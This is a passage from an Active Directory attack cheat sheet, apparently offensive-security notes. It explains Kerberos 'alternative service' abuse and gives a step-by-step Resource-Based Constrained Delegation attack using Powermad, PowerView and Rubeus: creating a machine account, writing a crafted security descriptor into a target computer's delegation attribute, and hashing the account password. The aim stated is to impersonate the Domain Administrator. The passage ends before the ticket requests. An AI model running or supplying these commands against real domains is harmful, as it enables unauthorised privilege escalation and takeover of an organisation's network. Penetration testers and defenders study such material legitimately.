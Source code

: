 In this case, we can still abuse a feature of Kerberos called "alternative service". This allows us to request TGS tickets for other "alternative" services and not only for the one we have rights for. That's gives us the leverage to request valid tickets for any service we want that the host supports, giving us full access over the target machine.

### Resource-Based Constrained Delegation

_What is this?:  TL;DR  If we have GenericALL/GenericWrite privileges on a machine account object of a domain, we can abuse it and impersonate ourselves as any user of the domain to it. For example, we can impersonate Domain Administrator and have complete access._

Tools we are going to use:

* [PowerView](https://github.com/PowerShellMafia/PowerSploit/tree/dev/Recon)
* [Powermad](https://github.com/Kevin-Robertson/Powermad)
* [Rubeus](https://github.com/GhostPack/Rubeus)

First, we need to enter the security context of the user/machine account that has the privileges over the object. If it is a user account we can use Pass the Hash, RDP, PSCredentials etc.

Exploitation Example:

Import Powermad and use it to create a new MACHINE ACCOUNT

```
. .\Powermad.ps1
New-MachineAccount -MachineAccount <MachineAccountName> -Password $(ConvertTo-SecureString 'p@ssword!' -AsPlainText -Force) -Verbose
```

Import PowerView and get the SID of our new created machine account

```
. .\PowerView.ps1
$ComputerSid = Get-DomainComputer <MachineAccountName> -Properties objectsid | Select -Expand objectsid
```

Then by using the SID we are going to build an ACE for the new created machine account using a raw security descriptor:

```
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength) 
$SD.GetBinaryForm($SDBytes, 0)
```

Next, we need to set the security descriptor in the msDS-AllowedToActOnBehalfOfOtherIdentity field of the computer account we're taking over, again using PowerView

```
Get-DomainComputer TargetMachine | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```

After that we need to get the RC4 hash of the new machine account's password using Rubeus

```
Rubeus.exe hash /password:'p@ssword!'
```
